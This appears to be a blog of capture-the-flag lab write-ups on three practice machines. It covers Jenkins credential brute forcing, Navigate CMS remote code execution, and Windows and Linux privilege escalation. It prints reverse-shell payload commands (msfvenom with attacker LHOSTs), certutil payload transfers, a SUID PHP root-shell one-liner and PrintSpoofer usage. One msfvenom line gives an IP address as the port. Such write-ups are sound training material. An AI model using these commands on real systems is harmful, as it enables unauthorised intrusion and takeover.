

Tactics Covered
Unquoted service path escalation, msfvenom payload generation.
Initial Enumeration
The first step was running an nmap scan to check open ports on the machine. The scan revealed port 8080 running HTTP, which was hosting a Jenkins service. With Jenkins running, I decided to attempt a brute force attack on the login page using Burp Suite.
Brute Forcing with Burp Suite
Using a Cluster Bomb attack in Burp Suite, I tried a few common usernames and passwords. After some testing, the valid credentials turned out to be:
- Username: jenkins
- Password: jenkins
This login worked, as evidenced by a change in the length of the response after submitting the credentials.
Exploitation
Once logged into Jenkins, I searched for known Jenkins exploits. It seems there is a vulnerability that allows us to gain a reverse shell through the Jenkins console in the settings. This vulnerability gave me system access, and I was now logged in as the user butler.
Privilege Escalation
Step 1: Downloading and Hosting WinPEAS
First, I downloaded winpeas, a tool designed for privilege escalation enumeration on Windows. Since it was a Windows machine, I used the Windows version of linpeas called winpeas.
To make winpeas available to the machine, I:
- Hosted a Python HTTP server to serve the script:
python -m http.server 80
- Changed the directory to
C:/users/butler, as it would allow me to run the winpeas script.
Step 2: Transfer winpeas using Certutil.exe
I used certutil.exe to fetch the winpeas script from the Python HTTP server I had set up.
Step 3: Unquoted Service Path Attack
Next, I discovered that the WiseCare service had an unquoted service path vulnerability, which is a common privilege escalation vector in Windows environments.

Step 4: Generating Malicious Payload with msfvenom
To take advantage of this, I used msfvenom to generate a reverse shell payload. The payload I generated was designed to execute a shell on my machine with SYSTEM privileges when the vulnerable service starts:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.206.128 LPORT=7777 -f exe > Wise.exe
Step 5: Transferring the Payload
I then transferred the Wise.exe payload to the WiseCare folder located in Program Files (x86). To do this, I hosted the Wise.exe file again using the Python HTTP server, and then used certutil.exe to download the payload.
Step 6: Stopping and Restarting the Vulnerable Service
I stopped the WiseBootAssistant service using the following command:
sc stop WiseBootAssistant
Then, I restarted the service with:
sc start WiseBootAssistant
When the service started, it executed the Wise.exe payload, which resulted in a SYSTEM shell being returned to me.
Tactics Covered
Virtual hosting with /etc/hosts, SUID exploit using PHP.
Initial Enumeration
Nmap scan reveals open ports 22, 53, and 80. Port 53 will come into play later.
Directory Busting
Source code on port 80 reveals an email address.
Started directory busting, but dirbuster didn't work. ffuf did, likely because the target (like /secret) had no file extension. Seems like ffuf handles this better.
The /secret directory gave no useful results.
Recon on Port 53
Using dnsrecon, found a new virtual host entry.
Edited /etc/hosts with sudo nano /etc/hosts to add the machine's IP and domain (e.g., blackpearl.tcm) to our local DNS records.
After restarting the browser and visiting http://blackpearl.tcm, an info page appeared.
Ran ffuf again on this domain and discovered a directory called /navigate.
The site was using Navigate CMS, which has a known Metasploit exploit.
Exploitation
Used Metasploit's navigate_cms_rce module.
- Set
RHOST to the machine's IP.
- Set
VHOST to blackpearl.tcm.
Ran the module and got a shell. Used the shell command to interact with it.
To get a TTY shell, grabbed a Python one-liner online and updated it to use /bin/bash:
python -c 'import pty; pty.spawn("/bin/bash")'
Privilege Escalation
Moved into /tmp and ran linpeas from the host machine.
- Used
chmod +x to make it executable.
- Ran with
./linpeas.sh.
In the SUID section, found a red-highlighted binary: /usr/bin/php.
Checked GTFOBins and found a suitable exploit for SUID PHP:
/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"
This gave a root shell. From there, cd /root to grab the flag.
Tactics Covered
Active Directory enumeration via SMB, ASPX reverse shells, Windows privilege escalation using SeImpersonatePrivilege (PrintSpoofer)
Initial Enumeration

Credentials Discovered
- Bob:
!P@$$W0rD!123 (Low-privilege user)
- Bill:
Juw4nnaM4n420696969!$$$
Unfortunately initial post-compromise techniques such as Kerberoasting, AS-REP Roasting, secretsdump, etc, yielded no viable attack paths or privilege escalation opportunities.
Web Enumeration
- Performed directory busting on ports 80 and 49663
- Discovered
nt4wrksv in web directories — linked to SMB share
- Confirmed upload access via SMB to the web root
Exploitation
Uploaded an ASPX reverse shell using SMB which is ideal for IIS/ASP.NET targets.
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.230.117 LPORT=10.6.36.131 -f aspx > shell.aspx
Triggered the reverse shell through the exposed web path tied to nt4wrksv.

Privilege Escalation
- Token impersonation attempts failed
- Attempted PrintNightmare exploit — caught by AV, even with a custom DLL
- Used PrintSpoofer successfully — achieved NT AUTHORITY\SYSTEM
PrintSpoofer64.exe -i -c cmd

More CTF write-ups will be added as I complete them. Stay tuned!